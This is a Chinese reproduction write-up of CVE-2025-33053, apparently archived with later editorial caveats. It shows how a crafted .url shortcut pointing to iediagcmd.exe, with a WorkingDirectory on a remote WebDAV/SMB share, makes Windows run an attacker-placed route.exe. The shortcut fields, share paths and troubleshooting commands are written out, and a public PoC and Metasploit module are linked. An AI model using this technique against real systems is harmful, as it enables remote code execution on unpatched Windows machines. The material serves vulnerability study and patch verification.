








# CVE-2025-33053 Poc复现研究细节

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：用户打开.url文件、适用未补丁Windows、WebDAV或SMB共享可达、合法诊断工具按工作目录搜索子程序
- 证据范围：记录procmon/procexp与初次失败后映射共享成功，有实验价值；直接执行远程route.exe是排错步骤，不应作为CVE证明

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 误归Commvault，与备份产品无关
- 没有具体Windows build/KB、WebClient状态与安全提示条件
- 成功前先访问/挂载共享可能改变信任或连接状态，需记录才能重现
- 完整.url内容只在未视检截图

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 MicroPest  MicroPest   2025-06-28 15:06  
  
今天看到这个CVE Poc，来了兴趣，进行了复现，但并不顺利。开始时死活不弹出计算器测试程序，这个过程持续了一下午+一晚上，终在晚上9时，捣鼓出来了，花了2个小时截图、写文章。我觉得网上那些人，咋做得那么顺利呢？曲折有曲折的好处，通过这些过程，让我对其中的细节理解地更深体会更深。  
  
就这样吧，脖子受不了了。  
  
2025 年 6 月的 Windows 更新修复了CVE-2025-33053漏洞，这是一个远程代码执行漏洞，目前已发现有人在野外利用。该漏洞允许指向合法本地 Windows 可执行文件的恶意 URL 文件在打开时从攻击者位于互联网上的服务器“侧载”DLL 或 EXE 文件。注意的是，虽然微软将此漏洞命名为“WEBDAV RCE远程代码执行”，但该漏洞通常可以通过任何 SMB 网络共享（包括内部网络共享文件夹）进行利用。然而，由于大多数防火墙和互联网服务提供商会阻止 SMB 流量，因此WebDAV 的攻击场景更加强大，因为它允许恶意 DLL 直接穿过防火墙从互联网上的服务器加载。  
  
**这个漏洞有点象当年的DLL劫持一样，利用了windows搜索顺序逻辑。**  
  
****  
攻击者使用指向 WebDAV 服务器的.url恶意快捷方式。当 Windows 执行合法工具（例如IE/Edge）时，它会默认进入远程文件夹并运行攻击者控制的二进制文件（例如），而不是本地文件。  
  
  
Poc地址：  
https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept  
  
使用过程，见网上很多文章，介绍下我的研究细节，  
  
1、执行 ./setup_webdav.sh，搭建webdav服务器，如下图部署成功。  
  
  
  
将calc.exe copy到/var/www/webdav目录下改名为route.exe，以及  
C:\Program Files\Internet Explorer\iediagcmd.exe也copy到同目录下。  
  
访问   
http://192.168.239.128/webdav，如下图表示成功  
  
  
  
2、生成url文件，  
  
  
  
说下上图中url的执行顺序，  
  
先执行  
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，当它运行时会收集一些信息，这是正常的功能，其中包含了一项功能就是route，所以它会调用route.exe，这时顺序来了，从哪找起呢，注意url的第二行  
WorkingDirectory=\\192.168.239.128\webdav\  
，会从webdav服务器上找route这个程序，所以会执行route.exe这个程序，而route.exe是计算器，因此弹出了calc。如果这是个木马，就隐蔽地执行了。  
  
3、将这个生成的doc.url放到windows本机上，双击，发现并没有弹出名为route.exe的计算器calc程序（后面又弹出了，刚开始时始终不行。下面的截图都是成功弹出）；  
  
一、成功状况下地分析  
  
4、架起procmon、procexp进行分析  
  
监视iediagcmd.exe以及route.exe程序的运行状态  
  
当我截上面这张图时，弹出了计算器，发现是执行成功了，刚才死活不行的。  
  
（4-1）我们来看下iediagcmd.exe的执行顺序，  
  
  
  
找ipconfig，先在当前目录和webdav下找，没找到，转去system32下。  
  
  
  
  
  
接着找route，当前目录下没有，就去webdav下找，发现了，执行它。  
  
  
  
接着找mpr.dll；  
  
不往下截图了。顺着找，可以将iediagcmd所有调用的收集程序全部找出来，也就意味着webdav服务器可以存放这些“冒名”的程序供它下载执行。  
  
（4-2）看下procexp，  
iediagcmd调用了route.exe，如下图。  
  
  
  
  
====  
  
二、不成功状态下的方法  
  
我接着来说前面没执行成功时的做法：  
  
方法1：  
  
将url第一行   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe  
  
改成：  
  
URL=\\192.168.239.128\webdav\route.exe  
  
让它直接执行，这法子果然可行；  
  
方法2：powershell下执行  
  
net use z: \\192.168.239.128\webdav  
  
dir z:  
  
直接打开共享；后面我关闭了net use z: /delete。  
  
通过上面两种方法，现在改回   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，发现可以弹出route.exe计算器了。  
  
  
=====  
  
《[CVE-2025-33053，Stealth Falcon 和 Horus：中东网络间谍活动传奇](https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531295&idx=2&sn=1bf7b0c5827626d1954d97ddab0be670&scene=21#wechat_redirect)  
》对整个攻击链的分析，值得一看。  
  
  
###   
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）

## 完整公开输入、工具差异与实验边界（2026-10-03）

已完整核读本文、Microsoft CNA、Metasploit固定提交模块，以及本文引用的 DevBuiHieu 仓库 README、URL生成器和两份 WebDAV 配置脚本；未运行脚本、搭建共享、生成载荷或访问示例目标。该实体属于 Windows Internet Shortcut Files，所在 Commvault 目录不能用于判定产品归属或重复。

### 可核读的验证材料

DevBuiHieu 的 `gen_url.py` 完整给出 `[InternetShortcut]` 内容生成逻辑，README展示 `URL=C:\Program Files\Internet Explorer\iediagcmd.exe`、`WorkingDirectory=\\192.168.1.100\webdav\` 及其余字段。这弥补了本文 `.url` 内容只在截图中的可复制性缺口；生成器本身末尾使用双反斜线的字符串表达，与README展示应分别按原值理解，不暗改原代码。

本文记录的特定手工实验将计算器程序放到共享中命名为 `route.exe`，用户打开指向本地 `iediagcmd.exe` 的URL快捷方式，预期观察到该诊断工具按工作目录找到共享中的同名程序并启动计算器。原作者保存了初次失败、直接运行共享程序与映射共享之后才成功的过程。这是公开的具体方法和预期/来源声称结果，但原文未记录准确Windows build、WebClient状态和提示处理，不能称为已证实每个受影响分支都能复现；直接运行远程 `route.exe` 仅是排错，不是该CVE独立证明。

Metasploit模块是另一变体：实际引入 `SMB::Server::Share`，以 `start_service` 启动SMB共享，提供名为 `explorer.exe` 的框架生成程序；URL指向 `C:\Windows\System32\CustomShellHost.exe`，工作目录使用模块共享路径。虽然模块标题/说明写WebDAV，它没有在这份源码中实现Apache WebDAV服务，不能与上述 `iediagcmd.exe`/`route.exe` 实验混写。代码期望受害者打开快捷方式后取得会话，未包含针对具体Windows build的检测。原仓库当前 `cve_2025_33053.rb` 下载为0字节，不能据它声称有额外独立实现；完整可核读模块来自固定 Rapid7 提交。

### 权限、版本与恢复

需要用户打开快捷方式、可达的远程共享、相应合法本地程序和适用的系统行为；CNA CVSS明确 `UI:R`。关闭注册或服务器认证不是本漏洞的前提。2025年6月修复应按Microsoft分支核对，例如 Windows10 22H2 的修复build边界为 `10.0.19045.5965`，Windows11 23H2 为 `10.0.22631.5472`，Windows11 24H2/Server2025 为 `10.0.26100.4349`，Server2022 为 `10.0.20348.3807`。完整分支/架构范围见CNA；其中ARM64产品标签写 `Windows 11 version 22H3` 而build是22631，不能将这个上游标签悄悄改成新的正式版本名。

部署脚本会以sudo安装Apache、写入或覆盖 `/etc/apache2/sites-available/000-default.conf` 与 `webdav.conf`、开放目录、改变属主/权限并重载或重启服务；不是无状态准备。URL文件、共享程序、网络会话、日志及原文映射盘是额外痕迹。原文提供 `net use z: /delete` 的映射移除记录，但没有完整恢复Apache配置或删除全部测试文件的流程。不要把分享目录建立成功、请求进入共享或框架启动监听单独视为Windows端代码执行。

### 来源

- DevBuiHieu 公开材料：<https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept>；README、`gen_url.py`、`setup_webdav.py`、`setup_webdav.sh` 在2026-10-03完整静态核读
- 完整Metasploit模块：<https://raw.githubusercontent.com/rapid7/metasploit-framework/5e598d5233bebecef2a44904a286769d83d31d12/modules/exploits/windows/fileformat/unc_url_cve_2025_33053.rb>
- Microsoft CNA：<https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2025/33xxx/CVE-2025-33053.json>；产品、用户交互与分支build范围
- Microsoft公告：<https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-33053>；修复选择应对应本机系统分支

本次没有独立查看本文外链截图；来源的成功文字主张、失败步骤与准确输入分开记录，没有将其升级为本库实际复现。
